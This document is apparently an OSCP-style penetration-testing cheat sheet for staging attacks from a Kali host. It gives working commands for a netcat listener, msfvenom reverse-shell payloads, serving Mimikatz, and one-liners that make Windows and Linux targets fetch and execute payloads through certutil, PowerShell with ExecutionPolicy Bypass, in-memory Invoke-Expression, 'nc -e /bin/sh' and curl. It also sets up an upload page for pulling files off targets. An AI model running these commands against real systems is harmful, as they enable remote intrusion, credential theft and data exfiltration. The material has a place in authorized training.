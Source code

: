 # 1. Setup Kali for connections

## 1.1. Setup listener

```console
nc -nlvp 4444
```

- `-n` : numeric-only IP addresses, no DNS
- `-l` : listen mode, for inbound connects
- `-v` : verbose [use twice to be more verbose]
- `-p` : local port number (port numbers can be individual or ranges: lo-hi [inclusive])

## 1.2. Prepare payload transfer

Prepare files to web server root

☝️ Apache2 is already running with DocumentRoot at `/var/www/html`

If Kali isn't setup as web server, use `python3 -m http.server 80 &> /dev/null &` to run a web server endpoint, the web server root will be the `pwd` where the command was run

### Mimikatz:

```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /var/www/html
```

### MSFVenom reverse shell TCP:

☝️ omit the `x64` to generate a x86 payload

Linux:

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f py -o /var/www/html/reverse.py
```

Windows:

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
```

### PowerShell-based reverse shell script:

Download the reverse shell scription:

```console
curl -O https://raw.githubusercontent.com/joetanx/oscp/main/reverse.ps1
```

Edit the address and port:

```console
sed -i 's/<ADDRESS>/kali.vx/' reverse.ps1
sed -i 's/<PORT>/4444/' reverse.ps1
```

# 2. Execute payloads on Windows

## 2.1. Execute Windows reverse shell TCP payload

### Using certutil

```console
certutil.exe /urlcache /f /split http://kali.vx/reverse.exe %USERPROFILE%\reverse.exe && %USERPROFILE%\reverse.exe
```

### Using PowerShell

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','%USERPROFILE%\reverse.exe'); Start-Process %USERPROFILE%\reverse.exe
```

## 2.2. Execute PowerShell-based reverse shell script

☝️ `Invoke-Expression` is useful if you don't want the payload to touch the disk, but it works for Powershell Scripts only

(i.e. `DownloadFile` of the reverse shell executable and try to run it with `Invoke-Expression` will not work)

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://kali.vx/reverse.ps1')
```

# 3. Execute payloads on Linux

## 3.1. Simply nc back (if netcat is installed on target machine)

```console
nc -nv 192.168.17.10 4444 -e /bin/sh
```

## 3.2. Execute Linux reverse shell TCP payload

```console
curl -O http://kali.vx/reverse.elf && chmod +x reverse.elf && ./reverse.elf
```

# 4. Uploading files to Kali

## 4.1. Setup upload page on web server

### Prepare uploads directory

```console
mkdir /var/www/html/uploads
chown www-data:www-data /var/www/html/uploads
```

☝️ apache2 runs as `www-data` user, it needs write permission on the uploads directory for uploads to succeed

### Prepare upload page

```console
curl -o /var/www/html/upload.php https://raw.githubusercontent.com/joetanx/oscp/main/upload.php
```

☝️ The name for the upload parameter is named as default of `file` to accommodate the PowerShell `UploadFile` method of `System.Net.WebClient` which will `POST` the file to this name

## 4.2. Uploading

### Using curl

```console
curl -H 'Content-Type:multipart/form-data' -X POST -F file=@"The Little Prince.jpg" -v http://kali.vx/upload.php
```

### Using `UploadFile` method of `System.Net.WebClient`

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).UploadFile('http://kali.vx/upload.php','The Little Prince.jpg')
```
